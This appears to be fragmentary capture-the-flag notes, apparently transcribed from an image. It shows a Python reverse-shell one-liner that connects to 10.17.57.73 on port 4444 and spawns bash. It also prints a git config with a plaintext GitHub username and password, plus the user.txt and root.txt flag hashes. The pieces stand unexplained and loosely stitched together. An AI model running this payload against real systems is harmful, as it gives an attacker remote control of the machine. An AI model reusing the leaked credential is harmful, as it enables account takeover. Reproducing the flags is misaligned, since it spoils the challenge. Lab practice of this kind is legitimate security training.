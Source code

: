Reverse shell payload:
```
import socket,os,pty;s=socket.socket();s.connect(("10.17.57.73",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")
```




cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential "https://github.com"]
        username = think
        password = _TH1NKINGPirate$_


----
user.txt
996bdb1f619a68361417cabca5454705
----

---
root.txt
ba5ed03e9e74bb98054438480165e221
---
